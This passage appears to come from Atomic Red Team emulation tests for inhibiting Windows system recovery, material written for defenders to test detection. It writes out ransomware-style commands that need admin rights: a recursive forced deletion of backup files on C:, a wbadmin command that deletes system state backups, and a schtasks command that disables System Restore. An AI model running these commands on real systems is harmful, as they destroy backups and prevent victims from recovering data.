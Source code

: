```cmd
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```

<br/>
<br/>

## Atomic Test #7 - Windows - wbadmin Delete systemstatebackup

Deletes the Windows systemstatebackup using wbadmin.exe. This technique is used by numerous ransomware families. This may only be successful on server platforms that have Windows Backup enabled.

**Supported Platforms:** Windows

**auto_generated_guid:** 584331dd-75bc-4c02-9e0b-17f5fd81c748

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
wbadmin delete systemstatebackup -keepVersions:0
```

<br/>
<br/>

## Atomic Test #8 - Windows - Disable the SR scheduled task

Use schtasks.exe to disable the System Restore (SR) scheduled task

**Supported Platforms:** Windows

**auto_generated_guid:** 1c68c68d-83a4-4981-974e-8993055fa034

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /disable
```

#### Cleanup Commands:

```cmd
schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /enable >nul 2>&1
```

<br/>
<br/>

## Atomic Test #9 - Disable System Restore Through Registry

Modify the registry of the currently logged in user using reg.exe via cmd console to disable system restore on the computer.
See how remcos RAT abuses this technique- https://www.virustotal.com/gui/file/2d7855bf6470aa323edf2949b54ce2a04d9e38770f1322c3d0420c2303178d91/details
